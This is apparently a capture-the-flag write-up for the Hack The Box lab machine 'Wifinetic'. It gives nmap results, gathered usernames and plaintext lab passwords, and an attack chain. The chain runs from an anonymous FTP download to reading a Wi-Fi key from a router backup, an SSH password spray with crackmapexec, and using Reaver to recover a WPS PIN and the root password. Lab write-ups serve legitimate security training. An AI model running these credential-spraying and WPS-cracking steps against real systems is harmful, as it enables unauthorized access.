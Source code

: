 ## Wifinetic

| Name      | IP           | Difficulty | OS    |
| --------- | ------------ | ---------- | ----- |
| wifinetic | 10.10.11.247 | Easy       | Linux |

## NMAP

| HOST                         | PORT | PROTO | SERVICE | VERSION                 |
| ---------------------------- | ---- | ----- | ------- | ----------------------- |
| 10.10.11.247 (wifinetic.htb) | 21   | tcp   | vsftpd  | 3.0.3                   |
| 10.10.11.247 (wifinetic.htb) | 22   | tcp   | OpenSSH | 8.2p1 Ubuntu 4ubuntu0.9 |
| 10.10.11.247 (wifinetic.htb) | 53   | tcp   |         |                         |

## USERS

- HR Manager: samantha.wood93
- Wireless Network Admin: olivia.walker17
- netadmin:VeRyUniUqWiFIPasswrd1!
- root

## NOTES

- Anonymous FTP login allowed 
```
| -rw-r--r--    1 ftp      ftp          4434 Jul 31 11:03 MigrateOpenWrt.txt
| -rw-r--r--    1 ftp      ftp       2501210 Jul 31 11:03 ProjectGreatMigration.pdf
| -rw-r--r--    1 ftp      ftp         60857 Jul 31 11:03 ProjectOpenWRT.pdf 
| -rw-r--r--    1 ftp      ftp         40960 Sep 11 15:25 backup-OpenWrt-2023-07-26.tar
|_-rw-r--r--    1 ftp      ftp         52946 Jul 31 11:03 employees_wellness.pdf 
```
- Recursively download files from the FTP server `wget -r ftp://10.10.11.247/`
- Unzip the .tar file `tar -xvf backup-OpenWrt-2023-07-26.tar`
- Get network key `cat etc/config/wireless` SSID: `OpenWrt` Password: `VeRyUniUqWiFIPasswrd1!`
- Spray SSH with the wireless password and usernames gathered from the `.pdf` and `etc/passwd` files `cme ssh 10.10.11.247 -u users.txt -p 'VeRyUniUqWiFIPasswrd1!'`
- netadmin has shell access
- The user flag is in netadmin's home directory
- Reaver has network capability `/usr/bin/reaver = cap_net_raw+ep`
- Scan network interfaces `iwlist scan`
- wlan0 BSSID: `02:00:00:00:00:00`
- Find monitor interface `wlan0` with `iwconfig`
- Use Reaver to get the PIN: `12345670` and Password: `WhatIsRealAnDWhAtIsNot51121!`
- Login to `root` with the password
- The root flag is in the root user's home directory
